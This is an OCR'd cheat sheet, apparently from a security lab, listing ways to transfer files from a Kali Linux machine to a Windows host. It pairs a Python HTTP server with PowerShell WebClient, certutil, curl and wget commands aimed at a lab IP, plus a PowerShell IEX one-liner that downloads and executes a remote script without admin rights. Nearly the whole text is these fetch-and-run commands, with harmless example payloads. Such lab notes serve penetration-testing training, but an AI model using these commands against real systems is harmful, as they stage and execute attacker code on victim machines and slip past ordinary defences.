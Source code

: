 Windows Powershell:
$WebClient = New-Object System.Net.WebClient 
$url = “http://Your_Kali_IP_Address/putty.exe” 
$pathFile= “C:\Users\cyberlab\putty.exe” (file to your path)
$WebClient.DownloadFile ($url, $pathFile)

#HTTP 2
Python -m SimpleHTTPServer 80

ON Windows Browser type http://your_kali_linux_ip/file.exe

#Using Invoke-Expression cmdlet (IEX)- no Admin Privilege

Kali Linux Machine
Create a script
myScript.ps1 
^^^^^^^^^^^^
Ls
Get-host

Windows Powershell:

$WebClient = New-Object System.Net.WebClient 
$url = “http:// Your_Kali_IP_Address /myScript.ps1” 
powershell.exe IEX ($WebClient.DownloadString ($url))

#Certutil


Kali Linux

python -m SimpleHTTPServer 80


Windows Machine

certutil -urlcache -split -f http://192.168.57.6/putty.exe putty.exe 
dir


#Curl


Kali Linux

python -m SimpleHTTPServer 80


Windows Machine

curl http://192.168.57.6/putty.exe -o putty.exe 
dir.


#wget


Kali Linux

python -m SimpleHTTPServer 80

Windows Machine

wget http://192.168.57.6/putty.exe -OutFile putty.exe 
OR
powershell.exe wget http://192.168.57.6/putty.exe -OutFile putty.exe
 